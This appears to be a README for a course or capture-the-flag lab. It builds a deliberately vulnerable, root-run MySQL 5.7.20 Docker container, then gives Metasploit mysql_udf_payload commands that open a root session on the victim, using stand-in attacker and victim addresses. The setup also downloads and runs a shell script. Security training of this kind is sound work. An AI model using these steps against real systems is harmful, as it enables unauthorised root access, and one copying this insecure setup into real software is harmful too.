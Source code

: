 # Overview
These instructions will create a MySQL 5.7.20 instance inside a Docker container on a Ubuntu 22.04 server. The server is vulnerable to the /multi/mysql/mysql_udf_payload exploit in Metasploit. The MySQL service is running as root, allowing an attacker to gain privilege escalation on the target system. I shouldn't have to say this out loud, but this should ABSOLUTELY NOT under any circumstances be used in a production environment.
# Setup
1. Download files to build container
    ```
    $ wget https://raw.githubusercontent.com/TechGeek001/Netsec/main/mysqldb/mysqldb-UbuntuServerX86-64.sh
    $ chmod +x mysqldb-UbuntuServerX86-64.sh
    $ ./mysqldb-UbuntuServerX86-64.sh
    ```
2. Navigate to the newly created directory and build the Docker container
    ```
    $ cd mysqldb/mysqldb/UbuntuServerX86-64
    ```
3. Build and run the Docker container
    ```
    $ docker build -t tmysqldb .
    $ docker run -d --name mysqldb --dns 192.168.25.10 --dns-search netsec-docker.isi.jhu.edu --privileged --network host tmysqldb:latest
    ```
4. Exec into the Docker container
    ```
    $ docker exec -it mysqldb bash
    ```
5. Finish configuring MySQL (this can't be done during the build)
    ```
    # cd /root
    # chmod +x setup.sh
    # ./setup.sh
    ```
    The setup script populates the databases, creates administrative users with the correct permissions, and removes the /root/temp folder.
# Verify
1. Confirm that the /root/temp directory is gone with ```ls /root/```
2. Confirm that the database was created
   ```
   # mysql
   mysql> use database eadu;
   mysql> select * from users;
   ```
# Exploit
This procedure was tested on Kali Linux 22.04 using Metasploit Framework 6.4.2-dev
1. Start the MSF Console
   ```
   $ sudo msfconsole
   ```
2. Select the desired exploit
    ```
    > use exploit/multi/mysql/mysql_udf_payload
    ```
3. Set the correct options. In this example, the attacker is 1.1.1.1 and the victim is 2.2.2.2
    ```
    > set LHOST 1.1.1.1
    > set SRVHOST 1.1.1.1
    > set RHOST 2.2.2.2
    > set USERNAME <username>
    > set PASSWORD <password>
    > set target 1
    > exploit
    ```
    Note: MSF will claim that the exploit fails, but the session is still created. Not sure why this happens.
4. Open the session (in this example, it is session 1) and test to see which user this payload is running as.
    ```
    > sessions -i 1
    > show guid
    Server username: root
    ```
5. The flag is located in ```/root```

